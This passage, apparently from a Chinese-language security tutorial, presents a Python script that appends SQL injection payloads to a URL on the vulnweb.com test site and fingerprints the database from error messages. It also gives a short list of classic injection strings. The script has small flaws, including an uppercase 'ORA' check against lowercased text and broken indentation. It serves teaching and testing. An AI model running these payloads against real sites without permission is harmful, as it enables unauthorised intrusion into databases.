 使用 Python，我们可以构建一个简单的脚本，从`sql-attack-vector.txt`文本文件读取可能的 sql 攻击向量，并检查注入特定字符串后的输出。我们的目标是从一个 url 开始，在该 url 中我们识别易受攻击的参数，并将原始 url 与攻击向量相结合。

您可以在`sql_injection`文件夹的`test_url_sql_injection.py`文件中找到以下代码：

```py
import requests

url = "http://testphp.vulnweb.com/listproducts.php?cat="

with open('sql-attack-vector.txt') as file:
for payload in file:
    print ("Testing "+ url + payload)
    response = requests.post(url+payload)
    #print(response.text)
    if "mysql" in response.text.lower():
        print("Injectable MySQL detected")
        print("Attack string: "+payload)
    elif "native client" in response.text.lower():
        print("Injectable MSSQL detected")
        print("Attack string: "+payload)
    elif "syntax error" in response.text.lower():
        print("Injectable PostGRES detected")
        print("Attack string: "+payload)
    elif "ORA" in response.text.lower():
        print("Injectable Oracle detected")
        print("Attack string: "+payload)
    else:
        print("Not Injectable")
```

您可以在`sql_injection`文件夹的`sql-attack-vector.txt`文件中找到以下代码：

```py
" or "a"="a
" or "x"="x
" or 0=0 #
" or 0=0 --
" or 1=1 or ""="
" or 1=1--
```

执行`test_url_sql_injection.py`时，我们可以看到易受多种向量攻击的可注入 cat 参数：
